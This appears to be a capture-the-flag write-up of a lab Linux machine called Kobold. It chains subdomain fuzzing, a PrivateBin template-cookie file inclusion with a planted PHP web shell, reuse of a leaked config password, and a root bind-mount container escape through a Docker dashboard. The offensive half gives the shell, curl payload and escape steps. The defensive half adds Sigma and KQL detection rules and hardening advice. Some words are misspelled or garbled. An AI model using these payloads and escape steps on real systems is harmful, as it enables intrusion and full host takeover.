









# Kobold

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

## Summary of Attack Chain

| Step | User / Access                      | Technique Used                         | Result                                                                                                                   |
| :--: | :--------------------------------- | :------------------------------------- | :----------------------------------------------------------------------------------------------------------------------- |
|   1  | Local / Recon                      | **Nmap Port Scan & VHost Fuzzing**     | Identified open ports `22`, `80`, and `443`; discovered subdomains `bin.kobold.htb` and `mcp.kobold.htb` using **ffuf**. |
|   2  | Unauthenticated Web                | **LFWe to RCE (PrivateBin)**            | Exploited insecure `template` cookie to include a PHP shell uploaded to `/privatebin-data/data/`.                        |
|   3  | nobody (Container Shell)           | **Configuration File Enumeration**     | Retrieved hardcoded MySQL credentials (`ComplexP@XXXXXXXXXXXXXXX`) from `conf.php`.                                      |
|   4  | Attacker                           | **Credential Reuse Check**             | Determined the database was a rabbit hole, but the password worked for the Arcane dashboard.                             |
|   5  | arcane (Web Panel)                 | **Authenticated Dashboard Access**     | Logged into the Arcane container management UWe at `mcp.kobold.htb:3552` using the harvested credentials.                 |
|   6  | arcane (Container Ops)             | **Malicious Container Deployment**     | Deployed a new container using the local `nginx-fpm-alpine` image to bypass network restrictions.                        |
|   7  | arcane (Privilege Escalation Prep) | **Docker Bind Mount Abuse**            | Mounted the host root filesystem (`/`) to `/hostfs` inside the container configuration.                                  |
|   8  | root (Container Shell)             | **Runtime User Override (UID 0)**      | Forced the container to run as `root` using dashboard settings to bypass host filesystem restrictions.                   |
|   9  | root (Container / Host FS)         | **Filesystem Escape & Flag Retrieval** | Accessed the mounted host filesystem and retrieved **user.txt** from `ben` and **root.txt** from `/root`.                |
|  10  | root                               | **Post-Exploitation (chroot Escape)**  | Executed `chroot /hostfs` to obtain a full interactive root shell on the host operating system.                          |




# Offesnive Operations

### Reconnaissance

We kicked things off with a standard Nmap TCP scan to see what we were working with.

```bash
nmap --privileged -sC -sV -oA nmap_result 10.XXX.XX.XX
```

[Network Map](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Kobold/nmap_result.nmap "Results")


The scan came back with SSH on port 22, and a web server on ports 80 and 443 running Nginx. Port 80 just redirected to HTTPS at `kobold.htb`. 

The most interesting piece of intel came from inspecting the SSL certificate on port 443. The Subject Alternative Name (SAN) had a wildcard entry for `*.kobold.htb`. Whenever We see a wildcard cert, We immediately assume there is virtual host routing going on behind the scenes.

Fired up `ffuf` to fuzz the `Host` header and see if we could uncover any hidden subdomains. 

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u https://kobold.htb -H "Host: FUZZ.kobold.htb" -fs 154
```

[subdomain.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Kobold/subdomain.txt "Results")


This hit on two distinct subdomains:

* **`mcp.kobold.htb`**: Running an Arcane container management dashboard.
* **`bin.kobold.htb`**: Running an instance of PrivateBin.





### Getting a Foothold: PrivateBin LFI

We started poking around the PrivateBin instance. It turns out this specific setup insecurely processed the `template` cookie, opening the door for Local File Inclusion (LFI). Because we could traverse directories and execute files, getting a shell was pretty straightforward.



First, We dropped a simple PHP web shell directly into the accessible data directory:
```bash
echo '<?php system($_GET["cmd"]); ?>' > /privatebin-data/data/shell.php
```



Then, it was just a matter of calling that shell while manipulating the `template` cookie to point to it:
```bash
curl -sk "https://bin.kobold.htb/?cmd=id" -H "Cookie: template=../data/shell"
```

This gave me RCE as the `nobody` user. We were inside a restricted Alpine Linux Docker container running `nginx-fpm-alpine:2.0.2`, so the environment was pretty barebones, but it was enough to start looking around.

### Rabbit Hole and the Real Prize

While enumerating the container's local files, We started dumping the PrivateBin configuration files to look for secrets. We hit what looked like an absolute goldmine:

```ini
[model]
; example of DB configuration for MySQL
; Temporarily disabling while we migrate to new server for loadbalancing
;class = Database
[model_options]
dsn = "mysql:host=localhost;dbname=privatebin;charset=UTF8"
tbl = "privatebin_"    ; table prefix
usr = "privatebin"
pwd = "ComplexP@XXXXXXXXXXXXXXX"
```

[conf.php](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Kobold/conf.php "Results")

The `class = Database` line was commented out. The application was actually using the local filesystem for storage; the database didn't even exist here. The creator intentionally left those commented-out credentials as a breadcrumb. The database was a rabbit hole, but the password was the real prize.

### Pivoting to Arcane
Armed with the password `ComplexP@XXXXXXXXXXXXXXX`, We went back to the other subdomain we found during recon: the Arcane dashboard at `mcp.kobold.htb:3552`.

We tried luck with credential reuse, logging in with the username `arcane` and the password from the config file. It worked perfectly. We now had full administrative access to the Arcane dashboard.



### Abusing Docker Volumes

Arcane is basically a clone of Portainer. It gives you a nice web UWe to manage Docker containers. But here is the thing about Docker management dashboards: because they have to interact with the Docker daemon, they inherently possess root-level privileges on the underlying host. 

Instead of messing around with complex RCE exploits within the container lifecycles, We decided to just use the UI's built-in features to mount the host's hard drive and bypass the container entirely.

We created a new malicious container right from the Arcane dashboard with this setup:

1. **The Image:** We set it to `privatebin/nginx-fpm-alpine:2.0.2`. Using an image that was already cached locally was crucial because the isolated CTF environment couldn't reach out to Docker Hub to pull anything new.




2. **The Mount:** In the Advanced settings, We added a new bind mount. We mapped the host's entire root directory (`/`) to a folder inside my new container called `/hostfs`.

3. **The Privilege:** By default, that Nginx image runs as an unprivileged user. If We left it like that, We wouldn't have permission to read the host files We just mounted. So, in the Command & Logging settings, We explicitly overrode the user and set it to `root` (UID 0).



### Grabbing the Flags

We hit deploy and jumped into the built-in Arcane web shell for my new container. Because the container was running as root and had the host's filesystem mounted, We bypassed all of the host's permission boundaries. 

All that was left was to navigate to the mounted drive and read the flags.

**User Flag (ben):**
```bash
/var/www # cat /hostfs/home/ben/user.txt
```

**Root Flag:**
```bash
/var/www # cat /hostfs/root/root.txt
```




# Defensive Operations

## Overview

* **1.1 Definition:** Exploitation of recursive container-to-host escapes via administrative misconfiguration in web-based Docker management middleware (Arcane).
* **1.2 Impact:** Full Host Filesystem Compromise / Root-Level Persistence.
* **1.3 The Scenario:** An adversary leverages a multi-stage pivot starting from a Local File Inclusion (LFI) in a PrivateBin instance to achieve Remote Code Execution (RCE). Post-exploitation enumeration reveals cleartext credentials in commented-out configuration blocks, which are reused to hijack a high-privilege container orchestration dashboard (Arcane), ultimately allowing the deployment of a "privileged-mount" container that exposes the host's root filesystem.


## System Architecture & Theory

* **2.1 Protocol Environment:** Linux (Ubuntu/Alpine), Docker Engine API, Nginx Reverse Proxy, PHP-FPM, PrivateBin (PHP).
* **2.2 Attack Logic Flow:**
> [Web-Facing LFI] -> [Containerized RCE] -> [Credential Harvesting/Reuse] -> [Arcane Dashboard Hijack] -> [Privileged Container Deployment] -> [Host FS Escape]


* **2.3 Theoretical Analogy:** The "Nested Key" Principle—the initial key opens a small, secure box (the container) which contains the blueprint and passcode for the master control room (the host), allowing the intruder to rebuild the room's doors (deploying new containers) to suit their needs.


## Attack Vector

| Attribute                  | Technical Details                                                                                                                                                                                                                                                          |
| :------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers**    | `mcp.kobold.htb`, `bin.kobold.htb`, Port `3552` (Arcane / container management UI), Docker socket `/var/run/docker.sock`.                                                                                                                                                  |
| **Critical Vulnerability** | Insecure container management permissions allowing **bind mounting of the host filesystem** combined with the ability to **override container runtime user to UID 0**.                                                                                                     |
| **Offensive Action**       | 1. Exploit LFWe to gain container shell.<br><br>2. Reuse credentials to access container management UI.<br><br>3. Deploy malicious container with bind mount `/` → `/hostfs`.<br><br>4. Run container as `root` to bypass host file permissions and access sensitive files. |


### Prerequisistes

* **Access Level:** Administrative credentials for the Arcane Dashboard (via credential reuse).
* **Connectivity:** Access to the internal/exposed management port `3552/TCP`.
* **Target State:** Docker daemon running with sufficient privileges to execute bind mounts; presence of locally cached images (e.g., `privatebin/nginx-fpm-alpine:2.0.2`).


## Threat Hunting & Anamoly Analysis

* **Hunt Hypothesis:** [Technique: Docker Bind Mount Escape] + [Artifacts: New container creation logs with `/` mounts] + [Data Sources: Docker Audit Logs, Containerd Telemetry].
* **Behavioral Outliers:** The execution of `cat` on sensitive host paths (`/etc/shadow`, `/root/root.txt`) originating from a source process inside a temporary, short-lived container.
* **Toxic Combinations:** Credential reuse across unprivileged web-app service accounts and high-privilege infrastructure management accounts (Arcane `admin`).


## Detection Enggineering

* **Telemetry Gap Analysis:** `Sysmon Event ID 1` (Process Creation inside containers), `Docker APWe Logs` (Container Creation/Start), `Linux Auditd` (Mount syscalls).
* **Detection-as-Code (Sigma):**

```yaml
title: Privileged Host Filesystem Bind Mount
status: experimental
description: Detects the creation of a Docker container that mounts the host root directory.
logsource:
    product: docker
    service: audit
detection:
    selection:
        Action: 'container_create'
        HostConfig.Binds:
            - '/:/hostfs'
            - '/:/*'
    condition: selection
falsepositives:
    - Highly specialized backup software (rare)
level: critical
```

```KQL
// Docker Host Root Bind Mount Detection
// Matches: /:/hostfs, /:/mnt, or any variation of mounting host /
ContainerInventory
| where TimeGenerated > ago(24h)
| extend Config = parse_json(ContainerConfig)
| extend Binds = tostring(Config.HostConfig.Binds)
| where Binds contains "/:/" 
    or Binds startswith "/," // Catching variations in JSON array formatting
    or Binds contains "/:/hostfs"
| project 
    TimeGenerated, 
    Computer, 
    Name, 
    Image, 
    Binds, 
    ContainerHostname = Config.Hostname,
    User = Config.User
| extend Severity = "Critical"
| extend AttackTechnique = "T1611 - Escape to Host"
```

* **Resilience Test:** Adversaries may use sub-directory mounts (e.g., mounting `/etc` or `/root` specifically) to avoid broad `/` detection. 
* **Countermeasure:** Monitor for `CAP_SYS_ADMIN` capability assignment or any mount targeting sensitive host-path substrings in `docker create` events.


## Toolkit & Implementation

* **Automation:** `ffuf` (VHost Discovery), `curl` (LFI/RCE payload delivery), `Arcane Web-UI` (Orchestration).
* **OPSEC Analysis:** The attack leaves a high footprint in Docker logs; however, the use of `chroot` and a shell within the container avoids traditional host-based EDR that is not "container-aware."
* **Post-Exploitation:** `cat /hostfs/etc/shadow` followed by `hashcat -m 1800` for host-level lateral movement via SSH.


## Defensive Mitigation

* **Technical Hardening:** 1. Implement **Rootless Docker** to prevent container-to-host escapes from reaching the true host root.
    2. Enforce **AppArmor** or **SELinux** profiles to restrict container access even if the root filesystem is mounted.
    3. Disable `docker.sock` access for management panels where possible; use RBAC with limited "Allowed Volumes."
* **Personnel Focus:** Enforce distinct password policies for application-level service accounts vs. infrastructure-level management accounts to eliminate "Credential Pivot" vectors.


## Quick Action Playbook

| Step | Objective                      | Technical Command / Logic                                                           |
| :--: | :----------------------------- | :---------------------------------------------------------------------------------- |
|  01  | **Enumerate Subdomains**       | `ffuf -u https://kobold.htb -H "Host: FUZZ.kobold.htb" -w subdomains.txt`           |
|  02  | **Trigger LFWe → RCE**          | `curl -k -b "template=../data/shell" "https://bin.kobold.htb/shell.php?cmd=whoami"` |
|  03  | **Deploy Malicious Container** | Configure container via Arcane UWe with `Bind Mount: /:/hostfs`                      |
|  04  | **Privilege Escalation**       | Set container runtime **User: root (UID 0)**                                        |
|  05  | **Host Escape**                | `chroot /hostfs` to gain full root access on the host system                        |
